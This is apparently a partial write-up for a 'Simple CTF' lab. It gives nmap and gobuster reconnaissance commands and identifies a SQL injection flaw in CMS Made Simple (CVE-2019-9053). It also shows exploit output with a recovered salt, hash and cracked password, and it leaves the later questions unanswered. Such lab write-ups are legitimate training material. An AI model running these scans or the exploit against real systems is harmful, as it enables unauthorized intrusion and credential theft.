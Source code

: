 # Simple CTF Writeup

How many services are running under port 1000?
```
nmap --script=vuln -sV -A <target ip>
```
> 2

What is running on the higher port?
> ssh

What's the CVE you're using against the application?
```
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 250
```
We see a `/simple` which leads us to a CMS Made Simple vulnerability. Search this up online and we see [this](https://www.exploit-db.com/exploits/46635).
> CVE-2019-9053

To what kind of vulnerability is the application vulnerable?
> SQLi

What's the password?
```

```
```
Output:
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
> secret

Where can you login with the details obtained?


What's the user flag?


Is there any other user in the home directory? What's its name?


What can you leverage to spawn a privileged shell?


What's the root flag?

